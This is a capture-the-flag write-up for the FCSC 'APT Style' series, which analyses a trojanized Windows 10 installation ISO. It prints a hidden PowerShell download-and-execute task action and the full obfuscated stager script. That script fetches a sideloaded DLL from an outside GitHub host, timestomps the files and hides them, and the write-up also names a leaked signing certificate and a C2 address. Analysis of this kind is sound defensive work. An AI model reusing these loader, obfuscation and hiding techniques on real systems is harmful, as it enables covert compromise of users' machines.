



# APT Style 1/7

Description générale pour la série

En tant que RSSI, vous anticipez ~ tardivement ~ la migration des postes utilisateur de votre parc vers Windows 10.

Pour ce faire, vous demandez à l'un de vos collaborateurs de préparer un ISO d'installation et, devant l'importance de l'innocuité de ce média d'installation, vous décidez de le tester. Vous observez d'étranges comportements sur la machine fraîchement installée... Vous décidez alors de décortiquer cet ISO, afin de comprendre d'où viennent ces comportements.

Ce challenge est en 7 parties, selon le découpage initial suivant :

    APT Style 1/7 :
        500 points de départ
    APT Style 2/7 :
        500 points de départ,
        débloqué après APT Style 1/7
    APT Style 3/7 :
        100 points de départ,
        débloqué après APT Style 2/7
    APT Style 4/7 :
        100 points de départ,
        débloqué après APT Style 2/7
    APT Style 5/7 :
        100 points de départ,
        débloqué après APT Style 2/7
    APT Style 6/7 :
        100 points de départ,
        débloqué après APT Style 2/7
    APT Style 7/7 :
        200 points de départ,
        débloqué après APT Style 2/7

Attention : pour ces épreuves, vous n'avez que 10 tentatives de flag par épreuve.

Toutes les épreuves de cette série utilisent le même fichier disponible ci-dessous.

SHA256(Win10_22H2_French_x64.iso) = 6b308977cecc9b6d8aa50a8ddabdacdf01394b0819d5978141ed61862c61143f.
Question

Quel objet déclenche le comportement malveillant ? La réponse attendue est le chemin de l'objet.

Quel groupe d'attaquants emploie une méthode similaire ? Le format attendu est UNCXXXX.

Le flag final est au format FCSC{\<chemin\>:UNCXXXX}

## Solution

I compared every file's signature with an original Win10 iso:
The only different file was the ```SYSTEM``` file under ```C:\Windows\System32\config```.<br>
It contains some registry keys, so I used Total Commander to find the differences between them.


The *SpeechModelDownloadTask* task was modified:
- Action was modified to add: 
```powershell
powershell.exe -WindowStyle Hidden -noprofile -noninteractive -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/witnessstrong/OneDriveUpdater/main/OneDriveUpdater.ps1') -UseBasicParsing|iex"
``` 
which clearly downloads a script from Github and executes it.
- Task's security descriptor was deleted. This makes the tasks invisible to Windows

As for the hacker group using this method, a little search on Mandiant's website give [UNC4166](https://www.mandiant.com/resources/blog/trojanized-windows-installers-ukrainian-government)

FLAG: ```FCSC{C:\Windows\System32\config\SYSTEM:UNC4166}```

# APT Style 2/7

Question

Quel élément a été supprimé afin de masquer ce comportement malveillant à Windows ? La réponse attendue est le chemin de l'élément supprimé.

Quel groupe d'attaquant emploie une méthode similaire ? La réponse attendue est le nom du groupe.

Le flag est au format FCSC{\<chemin\>:\<nom du groupe\>}.

## Solution
As discovered previously, the security descriptor was deleted, its path was ```HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\Speech\SpeechModelDownloadTask```.

FLAG: ```FCSC{HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\Speech\SpeechModelDownloadTask:HAFNIUM}```

# APT Style 3/7

Question

Quel fichier est utilisé comme base de timestomp des fichiers malveillants ? La réponse attendue est le chemin complet du fichier au format : FCSC{<chemin>}.

## Solution

Upon analysis of the ```OneDriveUpdate.ps1``` downloaded by the task:
```powershell
if (&("{2}{0}{1}" -f'e','st-Path','T') -Path ((("{17}{11}{6}{8}{19}{14}{2}{16}{20}{21}{13}{15}{3}{7}{12}{18}{5}{4}{1}{0}{9}{10}" -f 'er.','pdat','osof','O','eU','on','am File','neDr','s','ex','e','gr','ive','Updat','icr','erHcn','t','C:HcnPro','Standal','HcnM','HcnOneDriv','e'))."R`EPlace"(([ChAR]72+[ChAR]99+[ChAR]110),[STring][ChAR]92))) {
    & ((("{7}{3}{14}{1}{0}{8}{11}{5}{12}{4}{6}{2}{13}{9}{10}"-f'm Files{0}Micro','rogra','dater{','0}','i','neD','veUp','C:{','soft{0','neDriveSt','andaloneUpdater.exe','}O','r','0}O','P'))  -f  [CHAr]92)
} else {
          ${Z`F6}::"secU`RiTypr`OToC`OL" =  ${Z`F6}::"SECurit`ypro`T`OCol" -bor 3072; &("{0}{1}"-f 'ie','x') ((&("{1}{0}{2}"-f 'ew-Obj','N','ect') ("{0}{5}{4}{2}{3}{1}"-f'Sy','t','m.Net.W','ebClien','e','st')).("{3}{1}{0}{2}"-f'rin','oadSt','g','Downl').Invoke(("{9}{11}{8}{4}{14}{0}{13}{17}{7}{10}{1}{6}{15}{3}{19}{12}{18}{2}{16}{5}" -f 'wit','eUp','nstall.','w/m','/','s1','dater','ne','/','https','Driv',':','in','nessstrong','github.com/','/ra','p','/O','/i','a'))) | .("{2}{0}{1}"-f'Nu','ll','Out-');
    &("{1}{0}"-f'w-Item','Ne') -ItemType ("{0}{2}{1}" -f 'Dir','ory','ect') -Force -Path ((("{8}{2}{3}{1}{6}{7}{4}{5}{0}" -f 'r','Mi','X8Program Fi','leslX8','lX8OneDriveU','pdate','cro','soft','C:l')).("{1}{0}" -f'Ace','REpl').Invoke('lX8','\')) | &("{1}{0}"-f'Null','Out-');
    (.("{1}{2}{0}"-f'ject','N','ew-Ob') ("{1}{2}{3}{0}"-f 'nt','N','et.WebC','lie')).("{1}{0}{2}" -f 'Fil','Download','e').Invoke(("{21}{5}{16}{14}{17}{20}{2}{12}{11}{15}{24}{13}{7}{3}{8}{10}{18}{22}{1}{9}{19}{0}{6}{23}{4}" -f'aloneU','eDriv','ub.','Up','e','ttps','pdate','eDrive','dater/r','eStan','aw/mai','witnes','com/','n','/g','sstrong/',':/','it','n/','d','h','h','On','r.ex','O'),((("{5}{9}{17}{0}{11}{4}{1}{12}{3}{10}{6}{14}{7}{13}{15}{16}{18}{2}{8}"-f 'ogra','ob3','r.e','cr',' Files','C:','b3O','b3','xe','ob3P','osofto','m','Mi','O','neDriveUpdatero','neDriv','eSt','r','andaloneUpdate'))-REplACE'ob3',[char]92));
    (&("{1}{3}{0}{2}"-f'Objec','N','t','ew-') ("{0}{4}{3}{1}{2}" -f'Ne','Cli','ent','b','t.We')).("{1}{2}{0}" -f'dFile','Down','loa').Invoke(("{13}{1}{8}{6}{9}{12}{0}{4}{2}{7}{3}{5}{11}{10}" -f'on','tp','/On','DriveUpdater/ra','g','w/mai','thub.com/w','e','s://gi','itn','/version.dll','n','essstr','ht'),((("{2}{11}{8}{14}{7}{4}{9}{13}{0}{5}{15}{12}{1}{6}{3}{10}" -f 'oft','Updater5','C:5f','v','ram Fil','5f','fD','g','r','es5fDMi','ersion.dll','DP','ive','cros','o','DOneDr'))."r`Epl`Ace"(([cHAR]53+[cHAR]102+[cHAR]68),'\')));
    (&("{2}{3}{0}{1}" -f'bjec','t','Ne','w-O') ("{2}{3}{1}{0}" -f 'nt','e','Ne','t.WebCli')).("{2}{0}{1}" -f 'wnloa','dFile','Do').Invoke(("{8}{1}{10}{9}{7}{12}{11}{3}{14}{4}{13}{0}{2}{5}{6}"-f 'main/','hub.','v','essstrong/OneDriveUpdate','/raw','ersl','on.dll','m/wi','https://git','o','c','n','t','/','r'),((("{12}{6}{8}{1}{2}{5}{0}{3}{11}{4}{10}{9}{7}"-f 'osoftIgdO','am',' Files','n','UpdaterIgdverslo','IgdMicr','o','l','gr','l','n.d','eDrive','C:IgdPr')).("{1}{2}{0}"-f 'cE','REPl','A').Invoke('Igd','\')));

    ${ts} = &("{1}{2}{0}" -f'tem','Get','-I') ("C:\Windows\win.ini") | .("{1}{0}" -f'oreach','F') {${_}."l`Astwr`iTetIMe"};
    ${files}= @(((("{11}{2}{16}{3}{1}{5}{20}{13}{7}{12}{17}{23}{14}{18}{19}{10}{6}{15}{8}{22}{9}{4}{0}{21}" -f 'er','MicrosoftwG','am ','Gi','at','iOne','iveSta','Upd','d','neUpd','r','C:wGiProgr','ate','ive','O','n','Filesw','rwG','ne','D','Dr','.exe','alo','i'))  -CRePLACe  ([cHAr]119+[cHAr]71+[cHAr]105),[cHAr]92), ((("{5}{1}{9}{13}{3}{6}{15}{14}{8}{0}{10}{2}{4}{11}{12}{7}" -f 'tq',':qXGPro','e','Micr','U','C','o','n.dll','f','gram F','XGOneDriv','pdaterq','XGversio','ilesqXG','o','s'))-cRePlaCe([cHar]113+[cHar]88+[cHar]71),[cHar]92), ((("{14}{11}{5}{13}{8}{10}{6}{12}{4}{9}{3}{0}{1}{2}{7}" -f 'UpdaterLX','nv','ers','ve','LXnOn','am ','Microsof','lon.dll','s','eDri','LXn','XnProgr','t','File','C:L')) -cRePLaCe'LXn',[CHAR]92), ((("{2}{3}{1}{7}{0}{8}{6}{5}{4}" -f'0Micros','m Fil','C:a','Y0Progra','pdater','0OneDriveU','taY','esaY','of')).("{0}{2}{1}" -f 'r','PLacE','e').Invoke('aY0','\')), ((("{4}{2}{1}{0}{3}"-f'}Microso','s{0','File','ft{0}','C:{0}Program '))  -f[chAR]92));
    ${files}.('ForEach')({
        ${file} = .('gi') ${_};
        ${file}."LastWriteTime"=${ts};
        ${file}."LastAccessTime"=${ts};
        ${file}."CreationTime"=${ts};
    })
    &('attrib') ('+s') ('+h') ('C:\Program Files\Microsoft\OneDriveUpdater\version.dll') ('/S') ('/D') ('/L');
    & ('C:\Program Files\Microsoft\OneDriveUpdater\OneDriveStandaloneUpdater.exe');
}
```
We can see the file used to timestomp is ```C:\Windows\win.ini```.

FLAG: ```FCSC{C:\Windows\win.ini}```.

# APT Style 4/7

Question

Quelle technique est employée par l'attaquant pour exécuter la charge malveillante ? La réponse attendue est l'ID complet de la technique au sens de la matrice MITRE ATT&CK, au format FCSC{TXXXX.XXX}.

## Solution

My guess was that the downloaded ```version.dll``` was replacing a valid dll and that malicious code was executed when ```OneDriveStandaloneUpdater.exe``` would use it.

A little search [here](https://attack.mitre.org/techniques/enterprise/) gives ```T1574.002```.

FLAG: ```FCSC{T1574.002}```

# APT Style 5/7

Question

Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023

Quel est le numéro de série du certificat ayant servi à signer la DLL malveillante ? La réponse attentue est au format FCSC{<numéro de série>}.

## Solution

The [repo](https://github.com/witnessstrong/OneDriveUpdater/) only has 1 commit so I looked on the [wayback machine](https://web.archive.org/web/20230000000000*/https://github.com/witnessstrong/OneDriveUpdater) for an older versino of the repo and found a capture from March 15th.

I downloaded the malicious ```version.dll``` from there and look at its signature:
<br>
which is actually an NVIDIA certificate that leaked in 2022.

FLAG: ```FCSC{43bb437d609866286dd839e1d00309f5}```

# APT Style 6/7

Question

Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante ... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023

Quelle machine est ciblée par la charge malveillante ? La réponse attendue est le nom de la machine au format FCSC{<nom>}.

## Solution

I just used ```strings``` on the malicious dll and looked at strings that could be a computer's name. 
I found ```DESKTOP-3BY599R``` which looks like the default name on a fresh install of Windows.

FLAG: ```FCSC{DESKTOP-3BY599R}```

# APT Style 7/7

Question

Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante ... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023

Quel C2 est contacté par la charge malveillante ? Le flag est au format FCSC{IP:PORT}.

## Solution

My idea was just to run the malware...in a VM called DESKTOP-3BY599R.

I fired up Windows's resources monitor, launched the malware and waited...

And here it was, a TCP connection on 192.168.56.1:1337.

FLAG: ```FCSC{192.168.56.1:1337}```.

# Conclusion

It was a great challenge, the start was a bit hard for me but the following steps were quite easy. I still learned a lot from this challenge! 